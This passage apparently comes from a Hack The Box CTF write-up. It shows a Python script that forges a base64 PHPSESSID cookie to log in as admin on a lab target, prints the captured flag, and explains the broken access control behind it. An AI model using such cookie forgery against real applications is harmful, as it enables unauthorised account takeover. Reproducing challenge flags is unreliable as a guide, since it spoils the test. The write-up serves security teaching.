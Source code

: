 > HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}

Let's practice Python:

```python
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup

target = 'http://167.99.202.131:30509/'
spoofed_cookie = dict(PHPSESSID='eyJ1c2VybmFtZSI6ImFkbWluIn0=')

print("[+] lester: Getting that flag with a spoofed session cookie...")
resp = requests.get(target, cookies=spoofed_cookie)
soup = BeautifulSoup(resp.text, 'html.parser')

print("[+] lester: Got flag: " +soup.h1.getText())
```

Result:

![baby-auth](/assets/ss-htb-owasp/baby-auth/baby_auth_4.jpg)

### Remarks

- **Broken Access Control**: Although the application has a working login and registration functionality, the implementation of session management, which in this case is through the session cookie `PHPSESSID`, is weak enough that tampering with the cookie allows a malicious user to escalate privileges to another valid user such as `admin`.
- **Recommendation**: The application should replace the session management with one that could detect and prevent tampering with, such as JWT.

## baby nginxatsu

Description: *Can you find a way to login as the administrator of the website and free nginxatsu?*

Web application: `157.245.35.161:32681`
